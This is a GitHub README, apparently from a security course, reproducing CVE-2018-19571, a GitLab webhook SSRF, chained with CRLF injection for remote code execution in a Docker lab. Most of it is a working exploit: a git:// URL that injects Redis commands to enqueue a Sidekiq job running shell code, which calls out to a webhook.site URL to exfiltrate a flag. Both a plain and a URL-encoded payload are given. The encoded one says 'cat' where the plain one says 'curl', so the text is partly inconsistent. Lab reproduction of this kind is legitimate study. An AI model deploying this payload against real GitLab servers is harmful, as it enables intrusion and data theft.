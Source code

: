 # GitLab SSRF

This repository is a reproduction of [CVE-2018-19571](https://nvd.nist.gov/vuln/detail/CVE-2018-19571), and how when combined with a CRLF injection exploit, can lead to remote code execution (RCE).

## CVE Details

### CVE-2018-19571

GitLab CE/EE, versions 8.18 up to 11.x before 11.3.11, 11.4 before 11.4.8, and 11.5 before 11.5.1, are vulnerable to an SSRF vulnerability in webhooks.

## Setting Up

For this reproduction, we will be using a vulnerable GitLab image, and running it using Docker Compose.

```sh
git clone https://github.com/CS4239-U6/gitlab-ssrf.git
cd gitlab-ssrf
docker-compose up
```

The goal is to provide a webhook URL that, when processed, would result in a payload being sent to Redis.

This payload, that will be enqueued, will contain a Sidekiq Job, which upon execution will run arbitrary shell code. In our case, it will copy over the flag value to us.

## Steps

We will first run through the steps, before explaining what each of these steps do.

1. Create an account, or login using the root account.

   The root password should be `password`, as specified in the file `initial_root_password`, but sometimes this doesn't end up loading properly.

   In such cases, you will need to modify the root account password directly.

   ```sh
   docker exec -it gitlab-ssrf_web_1 /bin/bash
   # Inside the shell
   gitlab-rails console
   # Inside the console
   user = User.find_by_username 'root'
   user.password = 'password'
   user.password_confirmation = 'password'
   user.save!
   ```

   Then, head over to `http://localhost:5080` and login.

2. Navigate to the create project page.

   Next, head over to `http://localhost:5080/projects/new` and click the tab `Import project`. You should see that there is an option: `Repo by URL`. We are going to use that to perform our SSRF attack.

3. Create a webhook to receive the flag.

Create a webhook URL at `https://webhook.site/`.

Paste the URL into the following code at `<URL HERE>`:

```text
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'curl <URL HERE>\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/ssrf.git
```

Then finally, we encode the above using a [URL Encoder](https://www.urlencoder.org/). Note that we will only be encoding the payload (which includes the blanks at the beginning and the linebreaks), and not the first and last line. You will also need to use CRLF. Lastly, do replace the following characters, if any, with their respective encoding:

- `_`: `%5F`
- `.`: `%2E`
- `-`: `%2D`

```text
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27cat%20https%3A%2F%2Fwebhook%2Esite%2F807b6a27%2D314e%2D4947%2Db5f1%2Dc384d8dc574f%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git
```
